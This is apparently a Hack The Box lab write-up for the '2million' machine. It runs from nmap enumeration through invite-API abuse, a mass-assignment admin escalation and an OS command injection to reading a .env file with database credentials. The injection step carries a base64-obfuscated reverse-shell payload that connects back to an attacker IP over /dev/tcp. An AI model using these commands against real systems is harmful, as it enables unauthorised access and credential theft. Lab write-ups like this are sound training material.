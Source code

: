 
# nmap scan
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 02:43 CST
Nmap scan report for 10.129.237.195
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


### open ports

22 - 8.9p1 
80 - nginx / http://2million.htb/

# http port 80

/invite 
- inviteapi.min.js
```javascript
function verifyInviteCode(code) { var formData = {"code": code}; $.ajax({ type: "POST", dataType: "json", data: formData, url: '/api/v1/invite/verify', success: function(response) { console.log(response); }, error: function(response) { console.log(response); } }); } function makeInviteCode() { $.ajax({ type: "POST", dataType: "json", url: '/api/v1/invite/how/to/generate', success: function(response) { console.log(response); }, error: function(response) { console.log(response); } }); }
```

> found 2 endpoints /api/v1/invite/verify /api/v1/invite/how/to/generate
- /api/invite/how/to/generate

```shell
curl -X POST 2million.htb/api/v1/invite/how/to/generate  | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}

```
> invoked the post call on the terminal using curl and jq (command formatting tool for json)


> the response contains rot 13 encrypted data which also contains an endpoint that can generate invite codes on the site

```shell
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
In order to generate the invite code, make a POST request to /api/v1/invite/generate


curl -X POST 2million.htb/api/v1/invite/generate  | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "WElVMUEtU0FXT1ItOVVISTYtTDBDT1E=",
    "format": "encoded"
  }
}

```

> /api/v1 displays all endpoints which leads to finding /api/v1/admin/settings/update where it escalate our user to admin 

```shell
curl -sv -X PUT 2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" --cookie "PHPSESSID=07miuukrpdpe7ktcj6dq79shei" -d '{"email":"test123@gmail.com", "is_admin":1}'

```

> /api/v1/admin/generate/vpn is vulnerable to os command injection on the username parameter 

```shell
curl -sv -X POST 2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" --cookie "PHPSESSID=07miuukrpdpe7ktcj6dq79shei" -d '{"username":"test;echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljg0LzQ0NDQgMD4mMQ==|base64 -d|/bin/bash"}'

```


# Privilege escalation

> found credentials on /html directory, .env file contains admin user credentials

```shell
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

```

> executed linpeas

```shell
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

```

> found an email that mentions kernel vulnerability /var/mail/admin

```shell
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

```

> OS distro has a vulnerability


```shell
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.2 LTS
Release:	22.04
Codename:	jammy

```